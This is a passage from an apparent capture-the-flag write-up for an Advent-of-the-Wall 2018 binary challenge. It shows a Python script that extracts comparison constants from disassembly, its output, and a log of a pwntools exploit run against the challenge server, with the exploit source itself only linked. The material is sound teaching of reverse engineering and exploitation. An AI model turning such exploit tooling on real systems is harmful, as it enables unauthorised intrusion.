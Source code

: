 ```python
    for (offset, size, instruction, hexdump) in iterable:
        disasm[offset] = (size, instruction)


    # this is where the check sequence starts
    start = 0x000007bf
    instructions = []


    # get interesting instructions
    for x in range(16):
        size, instr = disasm[start]
        instructions.append(instr)

        # hop 2 instructions
        start += size
        size, instr = disasm[start]
    
        start += size
        size, instr = disasm[start]
        start += size


    # parse interesting instructions
    for instr in instructions:
        # just checking it's != 0
        if instr == 'TEST EAX, EAX':
            codes.append("1")

        # else we get the check value
        elif instr.startswith('CMP EAX, '):
            value = instr.split(" ")[-1]
            codes.append(str(eval(value)))

    return codes


print get_codes(open("./gift", 'rb').read())




% ./exploit_v4.py 
['6419804', '7048451', '1', '5981939', '1809240', '3891630', '1', '2807850', '4265200', '4512418', '1', '5061300', '1303193', '7616025', '1', '6084938']

```


the final exploit is here as [pwnpwn.py](pwnpwn.py)

```
% ./pwnpwn.py
[*] '/home/matth/security/writeups/aotw2018ctf-writeups/day5/libc.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded cached gadgets for './libc.so'
[+] Opening connection to 18.205.93.120 on port 1205: Done
[+] getting binary...: got it
[+] getting access codes...: 6605480 8943792 1 4843465 9645361 4626089 1 2821626 8184439 8814483 1 5357819 7788017 2503320 1 844234
```